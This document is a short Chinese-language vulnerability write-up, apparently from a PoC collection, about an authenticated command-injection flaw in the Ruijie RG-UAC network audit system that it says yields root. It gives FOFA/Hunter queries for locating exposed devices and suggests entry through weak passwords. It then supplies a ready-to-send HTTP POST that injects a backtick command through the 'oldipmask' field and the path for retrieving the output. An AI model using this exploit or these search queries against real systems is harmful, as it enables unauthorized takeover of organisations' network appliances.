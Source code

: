 # 锐捷RG-UAC统一上网行为管理审计系统static_route_edit_commit后台命令执行漏洞

# 一、漏洞简介
锐捷RG-UAC统一上网行为管理审计系统存在命令执行漏洞,可以通过漏洞获取root权限 。

# 二、影响版本
+ 锐捷RG-UAC统一上网行为管理审计系统

# 三、资产测绘
+ hunter`app.name="Ruijie 锐捷 RG-UAC"`
+ fofoa:`app="Ruijie-RG-UAC"`

登录页

![1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c.png](./img/hNTRdQmi80Q2G_y-/1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c-873588.png)

# 四、漏洞复现
使用弱口令/敏感信息泄露漏洞登录系统后台

![1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5.png](./img/hNTRdQmi80Q2G_y-/1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5-395822.png)

获取Cookie后使用下面poc

```plain
POST /view/networkConfig/RouteConfig/StaticRoute/static_route_edit_commit.php HTTP/1.1
Host: 
Cookie: PHPSESSID=ae63a240e1fdfb5614107040d19120f3
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 38

oldipmask=`whoami+>2.txt`&oldgateway=1
```

![1714988328133-0b51fb46-5b51-4180-aad5-e38c2e83238b.png](./img/hNTRdQmi80Q2G_y-/1714988328133-0b51fb46-5b51-4180-aad5-e38c2e83238b-920825.png)

```plain
/view/networkConfig/RouteConfig/StaticRoute/2.txt
```

![1714988388622-fd76d5eb-c811-43f4-934d-5fccccc26b86.png](./img/hNTRdQmi80Q2G_y-/1714988388622-fd76d5eb-c811-43f4-934d-5fccccc26b86-222879.png)



> 更新: 2024-06-24 11:42:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vfp68n948gq7g8u6>
